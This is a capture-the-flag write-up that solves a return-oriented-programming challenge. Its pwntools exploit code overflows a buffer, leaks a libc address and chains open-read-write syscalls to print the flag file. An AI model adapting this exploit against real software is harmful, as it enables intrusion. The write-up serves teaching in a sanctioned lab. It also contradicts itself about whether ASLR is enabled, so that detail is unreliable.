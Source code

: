 # Return Oriented Programming 4.0

Running the provided file we knew that the ASLR is disabled. Next, debugging the file in GDB shows us that there are no functions to return to. 

![[Level4.0-1.png]]

Moreover, NX is enabled, so we can't execute shellcode from the stack. However, we can see that there is a function called `free_gadgets`. Then, we can use `ROPgadget` to check whether there are any good gadgets to use.

![[Level4.0-2.png]]

Finally, we can check whether there are any `syscall` gadgets to use.

![[Level4.0-3.png]]

Bingo! Since `pop rax`, `pop rdi`, `pop rsi`, `pop rdx`, and `syscall` are available, we can use `open`-`read`-`write` syscalls to read the `/flag` file. But since we can't create our custom assembly shellcode, we need to find useful gadgets from the executable file and the libc file. Now, we just need to assemble the payload.

First, load the library and files used then start the process.

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level4.0")
libc = elf.libc

io = process()
```

Next, find the gadgets (we can use `pwn` to simplify the payload). We should also find the offset, which is 88.

```python
POP_RAX = next(elf.search(asm('pop rax; ret')))
POP_RDI = next(elf.search(asm('pop rdi; ret')))
POP_RSI = next(elf.search(asm('pop rsi; ret')))
POP_RDX = next(elf.search(asm('pop rdx; ret')))
SYSCALL = next(elf.search(asm('syscall; ret')))

offset = 88
```

Then, send the first payload to leak the base LIBC address (since ASLR is enabled). 

```python
payload = flat(
    b'A' * offset,         # padding to return address
    POP_RDI,               # pop_rdi address (to change the rdi register)
    elf.got['puts'],       # set rdi = got address of puts
    elf.plt['puts'],       # call puts() function from plt to puts the puts@got address
    elf.sym['challenge']   # return to challenge()
)

io.sendline(payload)
```

Now that we got the `puts@got` address, we can calculate the LIBC base address as follows

```python
io.recvuntil(b'Leaving!\n')

puts_leak = u64(io.recv(6) + b'\x00\x00')
libc.address = puts_leak - libc.sym['puts']
```

Now, since the `open` syscall returns the file descriptor to the register `rax`, which is used to differentiate between syscalls, we need to store the `fd` to another register. However, there aren't any gadgets usable from the executable file. But, there are `xchg` gadgets in the libc file, which is why we need to calculate the libc base address. 

```python
XCHG = next(libc.search(asm('xchg edi, eax; ret')))
```

Then, since the base stack address is given, we can use it to store the string `"/flag"`. 

```python
io.recvuntil(b'located at: 0x')

stack_leak = int(io.recv(12), 16)
```

Finally, we can use this [website](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) for the list of available syscalls to assemble the final payload

```python
payload = flat(
    # Overflow buffer, /flag to point from open()
    b'/flag\x00'.ljust(offset, b'A'),

    # open()
    POP_RAX,        # rax to 2, syscall number for open()
    0x2,
    POP_RDI,        # point to "/flag" string
    stack_leak,
    POP_RSI,        # rsi to 0
    0x0,
    POP_RDX,        # rdx to 0
    0x0,
    SYSCALL,        # calling syscall, fd is now stored in rax

    # save buffer
    XCHG,           # now we the value in rax and rdi

    # read()
    POP_RAX,        # rax to 0, syscall number for read()
    0x0,
    POP_RSI,        # rsi to a RW space in elf, we can use the stack
    stack_leak,
    POP_RDX,        # rdx to 0x100 (size of buffer)
    0x100,
    SYSCALL,        # calling syscall, now the content is saved in the stack

    # write()
    POP_RAX,        # rax to 1, syscall number for write()
    0x1,
    POP_RDI,        # rdi to 1, fd 1 -> stdout
    0x1,
    SYSCALL         # calling syscall, flag should be written to the terminal
)

io.sendline(payload)
```

Final payload:

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level4.0")
libc = elf.libc

io = process()

print("===== STARTING EXPLOIT =====")

POP_RAX = next(elf.search(asm('pop rax; ret')))
POP_RDI = next(elf.search(asm('pop rdi; ret')))
POP_RSI = next(elf.search(asm('pop rsi; ret')))
POP_RDX = next(elf.search(asm('pop rdx; ret')))
SYSCALL = next(elf.search(asm('syscall; ret')))

offset = 88

payload = flat(
    b'A' * offset,
    POP_RDI,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['challenge']
)

io.sendline(payload)

io.recvuntil(b'Leaving!\n')

puts_leak = u64(io.recv(6) + b'\x00\x00')
libc.address = puts_leak - libc.sym['puts']

XCHG = next(libc.search(asm('xchg edi, eax; ret')))

io.recvuntil(b'located at: 0x')

stack_leak = int(io.recv(12), 16)

payload = flat(
    # Overflow buffer, /flag to point from open()
    b'/flag\x00'.ljust(offset, b'A'),

    # open()
    POP_RAX,
    0x2,
    POP_RDI,
    stack_leak,
    POP_RSI,
    0x0,
    POP_RDX,
    0x0,
    SYSCALL,

    # save buffer
    XCHG,

    # read()
    POP_RAX,
    0x0,
    POP_RSI,
    stack_leak,
    POP_RDX,
    0x100,
    SYSCALL,

    # write()
    POP_RAX,
    0x1,
    POP_RDI,
    0x1,
    SYSCALL
)

io.sendline(payload)

io.recvuntil(b'Leaving!\n')
print(f"Flag: {io.recvuntil(b'}')}")
```

Flag:

![[Level4.0.png]]
